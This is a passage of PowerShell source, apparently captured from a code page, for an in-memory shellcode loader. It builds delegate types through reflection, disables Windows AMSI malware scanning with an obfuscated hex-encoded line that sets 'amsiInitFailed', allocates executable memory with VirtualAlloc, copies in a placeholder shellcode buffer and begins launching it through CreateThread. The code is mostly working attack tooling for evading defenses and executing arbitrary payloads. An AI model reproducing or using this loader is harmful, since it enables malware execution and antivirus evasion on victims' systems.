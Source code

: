 ```powershell
        [Type[]]
        $FunctionParameters,

        [Parameter(Mandatory = $true)]
        [Type]
        $FunctionReturnType
    )

    # Define dynamic, in-memory assembly for code exeuction
    $DelegateTypeBuilder = [AppDomain]::CurrentDomain.DefineDynamicAssembly(
        $(New-Object System.Reflection.AssemblyName((Get-Guid))),
        [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule(
            'InMemoryModule',
            $false).DefineType(
                (Get-Guid),
                'Class, Public, Sealed, AnsiClass, AutoClass',
                [System.MulticastDelegate])

    # Define WinExec constructor and parameters
    $DelegateTypeBuilder.DefineConstructor(
        'RTSpecialName, HideBySig, Public',
        [System.Reflection.CallingConventions]::Standard,
        $FunctionParameters).SetImplementationFlags('Runtime, Managed')

    # Define invoke method for delegate
    $DelegateTypeBuilder.DefineMethod(
        'Invoke',
        'Public, HideBySig, NewSlot, Virtual',
        $FunctionReturnType,
        $FunctionParameters).SetImplementationFlags('Runtime, Managed')

    return $DelegateTypeBuilder.CreateType()
}

[Ref].Assembly.GetType('Syst'+'em.Manag'+'ement.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)

# Call VirtualAlloc to get new segment
$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
    (Find-Func -ModuleName "kernel32.dll" -FunctionName "VirtualAlloc"),
    (Get-DelegateType `
        -FunctionParameters @([IntPtr], [UInt32], [UInt32], [UInt32]) `
        -FunctionReturnType ([IntPtr]))).Invoke(
            [IntPtr]::Zero,
            0x1000,
            0x3000,
            0x40
    )

# Define shellcode
[Byte[]] $buf = ${INSERT_SHELLCODE_HERE}

# Copy shellcode into new segment
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

# Call CreateThread to execute new segment
$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
    (Find-Func -ModuleName "kernel32.dll" -FunctionName "CreateThread"),
    (Get-DelegateType `
        -FunctionParameters @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) `
        -FunctionReturnType ([IntPtr]))).Invoke(
```